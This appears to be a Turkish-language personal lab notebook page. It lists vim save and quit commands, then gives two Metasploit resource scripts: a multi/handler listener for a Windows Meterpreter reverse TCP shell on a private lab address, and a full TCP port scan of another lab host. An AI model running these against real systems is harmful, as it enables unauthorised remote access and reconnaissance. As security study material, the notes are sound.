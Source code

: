 ### Tam bir işlem sırasına göre vim' ne yaptığımızı sırasıyla yazıp kaydediyoruz.

---

1. **Çıkma ve Kaydetme:**
    
    - `:wq` veya `:x`: Dosyayı kaydedip çıkar.
2. **Çıkma ve Kaydetmeme:**
    
    - `:q!`: Değişiklikleri kaydetmeden çıkar. (Zorla çıkma)
3. **Çıkma:**
    
    - `:q`: Dosyadan çıkar. Eğer dosyada değişiklik varsa, çıkma işlemi gerçekleşmez ve bir uyarı verir.
4. **Kaydetme (Eğer Değişiklikler Var İse):**
    
    - `:w`: Dosyayı kaydeder.

- --
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.0.2.4
set LPORT 4444
run
```

### msfconsole -r handler.rc
![[Pasted image 20240228102406.png]]
![[Pasted image 20240228102831.png]]


---
## PORTSCAN.RC
### Bu sefer nano ile yaptık.
![[Pasted image 20240228103443.png]]
```
use auxiliary/scanner/portscan/tcp
set RHOST 10.0.2.15
set PORTS 1-65535
run

```

### msfconsole -r portscan-onur.rc
## msfconsole açıldı ve işlemlere başladı
![[Pasted image 20240228103606.png]]
